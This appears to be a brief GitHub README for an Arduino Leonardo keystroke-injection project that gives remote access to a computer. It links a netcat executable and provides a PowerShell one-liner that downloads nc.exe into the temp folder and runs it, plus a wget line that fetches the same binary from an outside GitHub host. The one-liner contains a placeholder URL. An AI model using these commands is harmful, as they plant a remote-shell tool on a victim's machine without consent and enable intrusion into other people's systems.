 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```
windows c# code powershell (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux wget https://github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
